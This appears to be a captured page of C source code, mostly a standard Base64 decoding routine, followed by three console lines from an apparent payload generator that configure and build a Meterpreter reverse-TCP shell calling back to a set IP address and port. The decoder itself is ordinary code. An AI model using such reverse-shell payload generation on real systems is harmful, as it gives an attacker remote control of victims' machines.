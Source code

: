```c
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64
};

int Base64decode_len(const char *bufcoded)
{
    int nbytesdecoded;
    register const unsigned char *bufin;
    register int nprbytes;

    bufin = (const unsigned char *)bufcoded;
    while (pr2six[*(bufin++)] <= 63);

    nprbytes = (bufin - (const unsigned char *)bufcoded) - 1;
    nbytesdecoded = ((nprbytes + 3) / 4) * 3;

    return nbytesdecoded + 1;
}

int Base64decode(char *bufplain, const char *bufcoded)
{
    int nbytesdecoded;
    register const unsigned char *bufin;
    register unsigned char *bufout;
    register int nprbytes;

    bufin = (const unsigned char *)bufcoded;
    while (pr2six[*(bufin++)] <= 63);
    nprbytes = (bufin - (const unsigned char *)bufcoded) - 1;
    nbytesdecoded = ((nprbytes + 3) / 4) * 3;

    bufout = (unsigned char *)bufplain;
    bufin = (const unsigned char *)bufcoded;

    while (nprbytes > 4) {
        *(bufout++) =
            (unsigned char)(pr2six[*bufin] << 2 | pr2six[bufin[1]] >> 4);
        *(bufout++) =
            (unsigned char)(pr2six[bufin[1]] << 4 | pr2six[bufin[2]] >> 2);
        *(bufout++) =
            (unsigned char)(pr2six[bufin[2]] << 6 | pr2six[bufin[3]]);
        bufin += 4;
        nprbytes -= 4;
    }

    /* Note: (nprbytes == 1) would be an error, so just ingore that case */
    if (nprbytes > 1) {
        *(bufout++) =
            (unsigned char)(pr2six[*bufin] << 2 | pr2six[bufin[1]] >> 4);
    }
    if (nprbytes > 2) {
        *(bufout++) =
            (unsigned char)(pr2six[bufin[1]] << 4 | pr2six[bufin[2]] >> 2);
    }
    if (nprbytes > 3) {
        *(bufout++) =
            (unsigned char)(pr2six[bufin[2]] << 6 | pr2six[bufin[3]]);
    }

    *(bufout++) = '\0';
    nbytesdecoded -= (4 - nprbytes) & 3;
    return nbytesdecoded;
}

```

[go/meterpreter/rev_tcp>>]: set lhost 192.168.174.128
[go/meterpreter/rev_tcp>>]: set lport 6666
[go/meterpreter/rev_tcp>>]: generate